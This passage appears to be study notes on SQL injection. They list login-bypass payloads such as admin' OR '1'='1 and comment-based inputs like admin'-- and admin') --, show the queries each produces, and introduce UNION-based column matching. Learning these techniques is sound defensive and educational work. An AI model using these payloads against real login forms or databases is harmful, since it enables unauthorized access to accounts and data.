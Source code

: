 > username input = admin' OR '1'='1
> password input = 
```sql
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='wrongpwd';
```

- if we don't know the username
> username input = something' OR '1'='1
> password input = something' OR '1'='1
```sql
SELECT * FROM logins WHERE username='something' OR '1'='1' AND password='something' OR '1'='1';
```

## Using Comments

-  `--`, `#`
- `/**/` inline comments

> username input = admin'; #
> password input = something
```sql
SELECT * FROM logins WHERE username='admin'; # AND password='something';
```
- use `%23` for '#' if input the payload in the URL within the browser

- use `--`
```sql
SELECT * FROM logins WHERE username='admin'-- AND password='whatever';
```

- for queries like this
```sql
SELECT * FROM logins WHERE (username='$username' AND id > 1) AND password='$password'
```

> username - `admin') --` 
```sql
SELECT * FROM logins WHERE (username='admin') -- 'AND id > 1) AND password='$password' 
```

## UNION 

- basic syntax
```sql
SELECT * FROM table_1 UNION SELECT * FROM table_2;
```
- row combine operation with table_1 and table_2
- data types must be the same
- numbers of columns must be the same 

### For un-even columns

- In SQL, 
```sql
SELECT "something" FROM passwords; 
```
- will always return "something" and 
```sql
SELECT 1 FROM passwords; 
```
- will always return 1
- SUPPOSE table_1 returns 2 columns and table_2 returns only 1 column
```sql
SELECT * FROM table_1 UNION SELECT col1, 1 FROM table_2;
```
